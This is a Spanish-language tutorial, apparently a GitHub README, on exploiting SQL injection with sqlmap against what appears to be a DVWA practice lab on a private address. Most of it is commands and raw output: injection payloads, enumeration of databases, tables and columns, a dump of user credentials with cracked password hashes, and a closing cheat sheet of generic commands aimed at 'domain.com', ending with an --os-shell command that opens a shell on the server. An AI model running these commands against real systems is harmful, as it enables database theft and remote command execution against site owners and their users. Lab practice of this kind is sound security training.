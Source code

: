 # TOOLS SQL INJECTION
## SQL-MAP
Es una herramienta de prueba de penetración de código abierto que automatiza la detección y explotación de vulnerabilidades de inyección SQL en aplicaciones web. La herramienta es compatible con múltiples sistemas de gestión de bases de datos, incluidos MySQL, Oracle, PostgreSQL y Microsoft SQL Server, y utiliza técnicas avanzadas de prueba de inyección SQL para determinar si una aplicación web es vulnerable a ataques de inyección SQL y, de ser así, automatizar la explotación de la vulnerabilidad. SQLMap también puede utilizarse para recuperar información valiosa de bases de datos, como tablas, columnas, credenciales y datos confidenciales almacenados.
#### Ejecución

```java                                                         
┌──(s3cur1ty3c㉿kali)-[~/Escritorio]
└─$ sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low"___
       __H__                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.12#stable}                                                                                                                                                   
|_ -| . [,]     | .'| . |                                                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                              
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's
responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:37:45 /2023-02-15/
[14:37:45] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:37:45] [INFO] resuming back-end DBMS 'mysql' 
[14:37:45] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=' OR NOT 8746=8746#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=' AND (SELECT 3829 FROM(SELECT COUNT(*),CONCAT(0x716b787671,(SELECT (ELT(3829=3829,1))),0x716a6a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FOjM&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=' AND (SELECT 9284 FROM (SELECT(SLEEP(5)))kwAX)-- qFqJ&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=' UNION ALL SELECT NULL,CONCAT(0x716b787671,0x636a636242684369556d51536741684458506b75686570496c6566764d44727a537a4d6a6d784b50,0x716a6a6b71)#&Submit=Submit
---
[14:37:45] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.14, PHP 5.3.1
back-end DBMS: MySQL >= 5.0
[14:37:45] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 14:37:45 /2023-02-15/
```
La sentencia `sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low"` ejecuta el programa SQLMap para buscar y explotar vulnerabilidades de inyección SQL en la URL proporcionada.

Los parámetros de la sentencia son:

>* "-u": URL objetivo de la página web a analizar.
>* "--cookie": Cookies de sesión necesarias para acceder a la página.
>* "PHPSESSID": Identificador de sesión PHP en la cookie.
>* "security": Nivel de seguridad de la página web, en este caso, "low".

En resumen, esta sentencia ejecuta una prueba de inyección SQL en la página web `http://192.168.200.152/vulnerabilities/sqli/` utilizando las cookies de sesión indicadas.

### Enumeración DataBase
El parámetro `--dbs` es una de las opciones que se pueden proporcionar a SQLMap para indicar que se deben enumerar todas las bases de datos disponibles en el servidor subyacente. SQLMap luego intentará inyectar código SQL en el sitio web objetivo para extraer información sobre las bases de datos disponibles en el servidor.
``` java
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(s3cur1ty3c㉿kali)-[~/Escritorio]
└─$ sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" --dbs
[15:09:39] [INFO] fetching database names
available databases [6]:
[*] cdcol
[*] dvwa
[*] information_schema
[*] mysql
[*] phpmyadmin
[*] test
[15:09:39] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 15:09:39 /2023-02-15/
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
#### Enumeración de Tablas
El parámetro `--tables` en la sentencia de SQLMap indica que SQLMap debe enumerar todas las tablas disponibles en la base de datos especificada con el parámetro -D.
``` java
 sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" --tables -D dvwa 
[15:17:33] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.14, PHP 5.3.1
back-end DBMS: MySQL >= 5.0
[15:17:33] [INFO] fetching tables for database: 'dvwa'
[15:17:33] [WARNING] reflective value(s) found and filtering out
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```
#### Enumeración de Columnas
El parámetro `--columns` en SQLMap se utiliza para enumerar las columnas (campos) de una tabla específica en una base de datos.
``` java
sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" -D dvwa -T users --columns
[15:21:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS: MySQL >= 5.0
[15:21:41] [INFO] fetching columns for table 'users' in database 'dvwa'
[15:21:41] [WARNING] reflective value(s) found and filtering out
Database: dvwa
Table: users
[6 columns]
+------------+-------------+
| Column     | Type        |
+------------+-------------+
| user       | varchar(15) |
| avatar     | varchar(70) |
| first_name | varchar(15) |
| last_name  | varchar(15) |
| password   | varchar(32) |
| user_id    | int(6)      |
+------------+-------------+
[15:21:41] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 15:21:41 /2023-02-15/
```
#### Enumeración por consulta SQL-Query
En este caso, la opción `--sql-query` se utiliza para especificar una consulta SQL que selecciona los datos de las columnas específicas de la tabla "users". Los datos se muestran en la salida de la consola de SQLMap, en el formato predeterminado.
``` java
sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" -D dvwa --sql-query "SELECT user, first_name, last_name, password FROM users"
[15:49:22] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.2.14, PHP 5.3.1
back-end DBMS: MySQL >= 5.0
[15:49:22] [INFO] fetching SQL SELECT statement query output: 'SELECT user, first_name, last_name, password FROM users'
[15:49:22] [WARNING] reflective value(s) found and filtering out
SELECT user, first_name, last_name, password FROM users [5]:
[*] admin, admin, admin, 5f4dcc3b5aa765d61d8327deb882cf99
[*] gordonb, Gordon, Brown, e99a18c428cb38d5f260853678922e03
[*] 1337, Hack, Me, 8d3533d75ae2c3966d7e0d4fcc69216b
[*] pablo, Pablo, Picasso, 0d107d09f5bbe40cade3de5c71e9e9b7
[*] smithy, Bob, Smith, 5f4dcc3b5aa765d61d8327deb882cf99
[15:49:22] [INFO] fetched data logged to text files under '/home/s3cur1ty3c/.local/share/sqlmap/output/192.168.200.152'
[*] ending @ 15:49:22 /2023-02-15/
```
#### Volcado o descarga de credenciales.
El parámetro `--dump` es utilizado en la herramienta de seguridad SQLMap para extraer los datos de las columnas de una tabla de una base de datos que ha sido comprometida con éxito por medio de una inyección de SQL.
Cuando SQLMap encuentra una vulnerabilidad de inyección de SQL en un sitio web o una aplicación web, intenta utilizar esa vulnerabilidad para obtener acceso a la base de datos subyacente. Una vez que ha obtenido acceso, se puede utilizar el parámetro --dump para extraer los datos de las columnas de una tabla en particular.
``` java                                                                 
┌──(s3cur1ty3c㉿kali)-[~/Escritorio]
└─$ sqlmap -u "http://192.168.200.152/vulnerabilities/sqli/?id=&Submit=Submit" --cookie="PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low" -D dvwa -T users --columns -C "user, password" --dump                                                         
Database: dvwa
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```

##

#List databases, add cookie values
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
  OR
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  


# List Tables, add databse name
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
  
# List Columns of that table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
  
#Dump all values of the table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
  

sqlmap -u "http:domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --os-shell
